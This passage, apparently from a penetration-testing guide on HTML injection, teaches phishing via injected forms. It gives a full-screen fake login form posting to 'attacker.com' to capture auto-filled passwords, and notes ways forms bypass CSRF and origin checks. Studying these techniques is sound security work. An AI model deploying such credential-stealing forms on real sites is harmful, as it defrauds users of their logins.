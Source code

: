 ### Forms

The previous phishing example is less likely to work on victims using a password manager, because the iframe is hosted on a different domain, it won't auto-complete like the user might be expecting. This can be improved by creating the phishing page natively inside your injection point.

Simply create a form with some inputs and a bunch of CSS (tip: re-use existing classes), recreating the real login page as closely as possible. But importantly, change the `action=` to your attacker's domain in order to receive the credentials. It may look something like this:

<pre class="language-html" data-title="Replace page with form"><code class="lang-html">&#x3C;div style="position: fixed; top: 0; left: 0; width: 100vw; height: 100vh;
            z-index: 999999; background: white">
  &#x3C;div class="d-flex flex-column h-100 justify-content-center align-items-center">
    &#x3C;h1>Login&#x3C;/h1>
<strong>    &#x3C;form action="https://attacker.com">
</strong>      &#x3C;input class="form-control" type="text" name="username" placeholder="Username..." autofocus>
      &#x3C;input class="form-control" type="text" name="password" placeholder="Password...">
      &#x3C;button class="btn btn-primary" type="submit">Submit&#x3C;/button>
    &#x3C;/form>
  &#x3C;/div>
&#x3C;/div>
</code></pre>

{% hint style="success" %}
Because this HTML is hosted on the target directly, password managers with auto-fill functionality will not know the difference between this and the real thing!

![](<../../../.gitbook/assets/image (6) (1) (1).png>)
{% endhint %}

Apart from leaking form inputs, you can also use forms to send specific requests form a trusted source. This can bypass checks like `SameSite=` cookies, the `Origin:` header or even CSRF tokens if JavaScript automatically adds them to any form on the page.

#### Rewrite form action from `<input>`

In rare cases it is possible to **hijack existing forms** to do what you want. For example, take the following source code and injection point, where we're able to add arguments:

<pre class="language-html"><code class="lang-html"><strong>&#x3C;form action="/login" method="post">
</strong>  &#x3C;input type="text" name="username">
  &#x3C;input type="text" name="password">
<strong>  &#x3C;button type="submit" class="INJECTION_HERE">Submit&#x3C;/button>
</strong>&#x3C;/form>
</code></pre>
